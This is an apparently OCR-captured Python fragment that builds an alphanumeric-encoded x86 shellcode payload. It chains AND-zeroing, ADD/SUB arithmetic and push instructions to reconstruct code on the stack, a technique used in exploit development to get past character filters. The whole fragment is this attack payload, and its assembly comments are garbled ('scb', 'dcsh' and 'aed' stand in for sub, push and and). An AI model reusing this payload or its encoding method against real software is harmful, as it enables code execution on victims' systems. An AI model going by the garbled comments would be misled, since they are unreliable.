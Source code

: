 ```python
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x07\x45\x65\x55" ## add  eax, 0x55654507
shellcode += "\x05\x06\x45\x64\x45" ## add  eax, 0x45644506
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x66\x32\x16\x33" ## add  eax, 0x33163266
shellcode += "\x05\x55\x41\x05\x33" ## add  eax, 0x33054155
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x76\x26\x11" ## add  eax, 0x11267643
shellcode += "\x05\x43\x65\x26\x10" ## add  eax, 0x10266543
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x12\x26\x46\x13" ## add  eax, 0x13462612
shellcode += "\x05\x02\x16\x46\x14" ## add  eax, 0x14461602
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x06\x43\x70\x64" ## add  eax, 0x64704306
shellcode += "\x05\x05\x43\x70\x54" ## add  eax, 0x54704305
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x66\x65\x66" ## add  eax, 0x66656676
shellcode += "\x05\x65\x55\x54\x56" ## add  eax, 0x56545565
shellcode += "\x05\x53\x43\x34\x64" ## add  eax, 0x64344353
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x05\x67\x54\x34" ## add  eax, 0x34546705
shellcode += "\x05\x05\x57\x54\x44" ## add  eax, 0x44545705
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x40\x05\x33\x63" ## add  eax, 0x63330540
shellcode += "\x05\x40\x04\x24\x52" ## add  eax, 0x52240440
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x52\x15\x33" ## add  eax, 0x33155236
shellcode += "\x05\x46\x41\x15\x42" ## add  eax, 0x42154146
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x63\x63\x30\x62" ## add  eax, 0x62306363
shellcode += "\x05\x62\x53\x20\x62" ## add  eax, 0x62205362
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x77\x63\x16" ## add  eax, 0x16637751
shellcode += "\x05\x50\x67\x64\x15" ## add  eax, 0x15646750
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x75\x33\x11\x21" ## add  eax, 0x21113375
shellcode += "\x05\x64\x23\x10\x20" ## add  eax, 0x20102364
```